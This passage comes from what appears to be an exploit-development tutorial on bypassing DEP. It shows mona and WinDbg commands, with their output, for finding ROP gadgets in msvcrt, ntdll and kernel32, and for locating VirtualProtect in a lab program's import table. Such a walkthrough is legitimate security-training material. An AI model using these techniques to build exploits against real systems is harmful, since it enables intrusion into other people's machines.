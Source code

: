 We'll use 0x625011AF for our JMP ESP gadget later if needed, but the primary one for the final VirtualProtect return will be identified separately (we used 0x625011c7 in the final chain). (Self-correction: Clarified the JMP ESP usage slightly).


### 3.2 Finding System DLL Gadgets

We also need gadgets from system DLLs to complete our chain:

1. Find PUSHAD instruction:
```
!py mona find -type instr -s "pushad # ret" -m "msvcrt,ntdll,kernel32" -cpb "\x00"
```

Output:
```
0x775d6f67 : pushad | ret [msvcrt.dll]
```
2. Find gadgets for setting other registers:
```
!py mona find -type instr -s "xchg eax, edx # ret" -m "ntdll" -cpb "\x00"
```
Output:
```
0x77d9e6c0 : xchg eax, edx | ret | {PAGE_EXECUTE_READ} [ntdll.dll]
```
3. Find gadgets for setting "neg eax, ret" registers:
```
!py mona find -type instr -s "neg eax # ret" -m "kernel32" -cpb "\x00"
```
Output:
```
0x76505808 : neg eax | ret | {PAGE_EXECUTE_READ} [KERNEL32.dll]
```

## 4. Finding VirtualProtect in IAT

To bypass DEP, we'll use Windows' VirtualProtect function to change memory permissions. First, we need to find its address in the Import Address Table (IAT):

1. Examine the IAT and search for VirtualProtect:
```
!dh essfunc -f
```
   
Output:
       
```
 5000 [     197] address [size] of Export Directory
 6000 [     224] address [size] of Import Directory
    0 [       0] address [size] of Resource Directory
    0 [       0] address [size] of Exception Directory
    0 [       0] address [size] of Security Directory
 7000 [      E4] address [size] of Base Relocation Directory
    0 [       0] address [size] of Debug Directory
    0 [       0] address [size] of Description Directory
    0 [       0] address [size] of Special Directory
    0 [       0] address [size] of Thread Storage Directory
    0 [       0] address [size] of Load Configuration Directory
    0 [       0] address [size] of Bound Import Directory
    0 [       0] address [size] of Import Address Table Directory
    0 [       0] address [size] of Delay Import Directory
    0 [       0] address [size] of COR20 Header Directory
    0 [       0] address [size] of Reserved Directory
```
